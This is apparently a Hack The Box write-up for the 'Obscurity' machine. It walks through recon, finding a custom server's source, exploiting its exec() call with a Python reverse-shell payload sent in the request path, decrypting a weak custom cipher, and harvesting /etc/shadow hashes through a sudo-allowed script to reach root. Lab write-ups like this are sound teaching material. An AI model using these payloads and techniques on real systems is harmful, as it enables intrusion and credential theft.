 # 📦 HTB - Obscurity


> Obscurity is my first medium box so I was very happy when I got that `root.txt` :D

## TL;DR

Custom Python web server, get source code, get revserse shell, crack user password for custom encryption system, use john to privesc.

## Footholds

To make things easier, I added the box to my `/etc/hosts`.

### Recon

Let's start with nmap to discover the open ports :

```
> nmap -A obscurity.htb -o nmap.out

Nmap scan report for obscurity.htb (10.10.10.168)
    Host is up (0.026s latency).
    Not shown: 996 filtered ports
    PORT     STATE  SERVICE    VERSION
    22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
    |   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
    |_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
    80/tcp   closed http
    8080/tcp open   http-proxy BadHTTPServer
    | fingerprint-strings: 
    |   GetRequest, HTTPOptions: 
    |     HTTP/1.1 200 OK
    |     Date: Fri, 10 Apr 2020 11:14:28
    |     Server: BadHTTPServer
    |     ...
    |_http-server-header: BadHTTPServer
    |_http-title: 0bscura
    ...
```

So we got so far SSH and HTTP server running on the machine.

### Web server

On the port 8080 we can see the web server which indicates that it is hand-made with custom code.

![0bscura homepage](homepage.png)

> If you use custom code, you can't have CVE's on it. So your code is 100% secure.

![Smart move gif](https://media.giphy.com/media/d3mlE7uhX8KFgEmY/giphy.gif)

By reading the content of their homepage, we get a good hint : they are hosting the source code on the server. We have to find `SuperSecureServer.py` ont it !

![0bscura devteam](devmessage.png)

### Finding source code

The easiest way I found on the moment was to fire up Burpsuite and use a directory wordlist.

By making a first request to the webserver, I sent it to Burp's intruder in sniper mode. Using a simple directory wordlist (`common.txt`) I placed the payload's position as `GET /§a§/SuperSecureServer.py`, launched the attack and waited for burp to get a 200 response code.

![Burp intruder](intruder.png)

![Burp payload](payload.png)

The source code is at `/develop/SuperSecureServer.py` !

![Burp result](result.png)

### Source code auditing

By reading the code, I found that during the document serving process, the `exec()` function is called.

```python
def serveDoc(self, path, docRoot):
    path = urllib.parse.unquote(path)
    try:
        info = "output = 'Document: {}'" # Keep the output for later debug
        exec(info.format(path)) # This is how you do string formatting, right? <-- here
        cwd = os.path.dirname(os.path.realpath(__file__))
        docRoot = os.path.join(cwd, docRoot)
        if path == "/":
            path = "/index.html"
```

### Reverse shell

After understanding when the exec was called, I injected a python reverse shell payload. Basically this is a command injection through format string, string which got evaluated right after. The payload we could manipulate was directly the path we GET on the server. My final payload for the reverse shell was :

```
GET /';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This payload works because :

* The first `'` is used to break the string generated by the format string
* Both `;` to inject a new python code between
* The last `'` is to make an empty string with the single quote from the source code, otherwise an error is raised

So I just launched a netcat connexion listenning on my machine, and made a request on the server with the payload to get the shell.

![Hapyp GIF](https://media.giphy.com/media/Ls6ahtmYHU760/giphy.gif)

## User

The reverse shell we have is as `www-data`, we need to privesc as a regular user.

```shell
> ls /home
robert
```

We know that user `robert` must be the user we need to privesc as. We need to investigate it's home directory.

```shell
> ls /home/robert
BetterSSH   check.txt   out.txt passwordreminder.txt    SuperSecureCrypt.py ...
```

We got a bunch of files here, some are pretty interesting, especially the Python script.

By examining it, we understand that Robert uses a custom password manager, stores it's "encrypted" password in a file, and tested it's encryption passphrase on a dummy text file.

First thing I did was to BF it's password using the famous rockyou. But it was unsuccessfull, I managed to get something close to it's password, but not the actual password.

After thinking about the encryption and decryption algorithms, I managed to get the real password.

To use the Python script : `python SuperSecureCrypt.py -i infile -k key -o outfile` will "encypt" the content of infile with key into outfile. To decrypt we have to use the `-d` option.

As the encryption and decryption where very simple :

```python
def encrypt(text, key):
    for x in text:
    newChr = chr( (ord(x) + ord(keyChr)) % 255 )
    encrypted += newCrh

def decrypt(text, key):
    for x in text:
    newChr = chr( (ord(x) - ord(keyChr)) % 255 )
    decrypted += newChr
```

The easiest way to get the password was : `python SuperSecureCrypt.py -d -i out.txt -k "$(cat check.txt)" -o pass.txt`

The encryption password was `alexandrovich`.

`python SuperSecureCrypt.py -d -i passwordreminder.txt -k alexandrovich -o robert.txt`

Robert's password was `SecThruObsFTW`, we can SSH as him and get the `user.txt` content.

![Yes GIF](https://media.giphy.com/media/hXDrTueJWAscK3xWQ2/giphy.gif)

## Root

We now need to go root. As robert :

```
> sudo -l
User robert may run the following commands on obscure:
(ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

So yeah, we know where to start. We now need to know how to exploit this BetterSSH.py script.

By reading the first lines, we know that it reads the `/etc/shadow` file, and write it's content into a file somewhere in `/tmp/SSH/`. The script prompts for a username and password, if the password's hash does corresponds to the shadow one, it gives a shell as this user.

I started to find a fancy way to monitor the content of the `/tmp/SSH/` folder, but a simple bash script can do anything :

```bash
#!/bin/bash
while true; do
    cat /tmp/SSH/* >> /tmp/.ninja
done
```

I launched the script in background, launched the BetterSSH script too, and read the content of my `/tmp/.ninja` file. We get most of the users' hashes separated by line, but only one matters to us. Root's hash was `$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1`.

Using john the ripper on the hash, we get root's password : `mercedes`. I could have SSH back as root, but there is already a tool for us : `sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py`, entered `root` for user, and `mercedes` for password, we now have a shell as root.

![Happy GIF 2](https://media.giphy.com/media/YJ5OlVLZ2QNl6/giphy.gif)

![Rooted](rooted.png)

